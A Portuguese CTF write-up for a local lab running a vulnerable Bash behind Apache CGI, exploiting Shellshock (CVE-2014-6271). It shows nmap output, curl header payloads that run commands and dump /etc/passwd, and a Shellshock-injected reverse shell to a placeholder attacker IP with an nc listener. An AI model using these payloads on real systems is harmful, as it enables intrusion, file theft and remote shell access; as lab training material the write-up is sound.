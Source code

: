 ## vulnerabilidade baseada na CVE base CVE-2014-6271 (variante CVE-2014-7187)
- pasta ftp: https://ftp.gnu.org/gnu/bash/

### explicao / variantes e fontes:
- https://nvd.nist.gov/vuln/detail/cve-2014-7187
- https://www.cve.org/CVERecord?id=CVE-2014-6271
- https://en.wikipedia.org/wiki/Shellshock_(software_bug)#References
- https://hub.docker.com/r/vulnerables/cve-2014-6271

### write-up
Shellshock também conhecido como Bashdoor (CVE-2014-6271 e CVE-2014-7169), é uma falha de segurança no Bash shell em sistemas Unix-like, que foi divulgada em 24 de setembro de 2014

A maquina roda um servidor de Apache com uma versão antiga do bash de 10 anos atrás, isso pode ser verficado enviando um payload http para a máquina que explora a vulnerabilidade shellshock

```pwsh
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 17:14 E. South America Standard Time
Nmap scan report for localhost (127.0.0.1)
Host is up (0.020s latency).
Other addresses for localhost (not scanned): ::1
rDNS record for 127.0.0.1: kubernetes.docker.internal

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-open-proxy: Proxy might be redirecting requests
|_http-generator: vi2html
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.57 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1809 - 2004
Network Distance: 0 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.41 seconds

PS C:\Users\Arthur> curl -H "user-agent: () { :; }; echo; /bin/bash -c 'bash --version'" 127.0.0.1:8080/cgi-bin/stats
GNU bash, version 4.3.0(1)-rc1 (x86_64-pc-linux-gnu)
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```
```pwsh
PS C:\Users\Arthur\Documents\CTF-SECOMP-UFSCar-2023\pwn\chall-0-easy> curl -H "user-agent: () { :; }; echo; /bin/bash -c 'cat /etc/passwd;'" 127.0.0.1:8080/cgi-bin/stats
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```
Para facilitar é possível criar um reverse shell entre a máquina alvo e a máquina que realiza o ataque: \
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

na máquina alvo:
```sh
bash -i >& /dev/tcp/<ip-gw>/6969 0>&1
#curl -H "user-agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/<ip-gw>/6969 0>&1;'" 127.0.0.1:8080/cgi-bin/stats
```
na máquina atacante:
```sh
nc -lvp 6969
```